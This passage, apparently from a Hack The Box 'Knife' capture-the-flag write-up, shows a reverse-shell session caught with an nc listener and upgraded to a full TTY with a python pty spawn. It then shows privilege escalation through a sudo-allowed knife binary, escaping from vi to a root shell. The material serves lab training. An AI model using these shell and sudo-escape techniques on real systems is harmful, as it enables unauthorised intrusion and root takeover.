 ```bash
        inet6 fe80::250:56ff:feb9:befe  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:be:fe  txqueuelen 1000  (Ethernet)
        RX packets 2717765  bytes 412004448 (412.0 MB)
        RX errors 0  dropped 47  overruns 0  frame 0
        TX packets 2505289  bytes 1104331428 (1.1 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 10879268  bytes 1934361744 (1.9 GB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 10879268  bytes 1934361744 (1.9 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

which python3
/usr/bin/python3
james@knife:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
james@knife:/$ ^Z
zsh: suspended  nc -nlvp 10099

┌──(kali㉿kali)-[~/…/HTB/box/Knife/scans]
└─$ stty raw -echo; fg																		148 ⨯ 1 ⚙
[1]  + continued  nc -nlvp 10099
james@knife:/$ export TERM=xterm
james@knife:/$ stty rows 60 columns 235
```

## Privilege Escalation
Enumerated sudo capabilities:
```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Knife allowed to choose a file to edit and the editor to use. Because the program did not drop privileges, it was possible to use the `vi` editor and then escape it by spawning a privileged shell:
```bash
james@knife:/opt$ sudo /usr/bin/knife client edit healthcare-validator -e vi
```
![Pasted image 20210523004731.png]({{page.screenshots}}Pasted image 20210523004731.png)

```bash
root@knife:/opt# id && hostname && cat /root/root.txt && ifconfig
uid=0(root) gid=0(root) groups=0(root)
knife
6ae0ca51...
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.242  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:feb9:befe  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:befe  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:be:fe  txqueuelen 1000  (Ethernet)
        RX packets 2722013  bytes 412311064 (412.3 MB)
        RX errors 0  dropped 66  overruns 0  frame 0
        TX packets 2509092  bytes 1106488505 (1.1 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
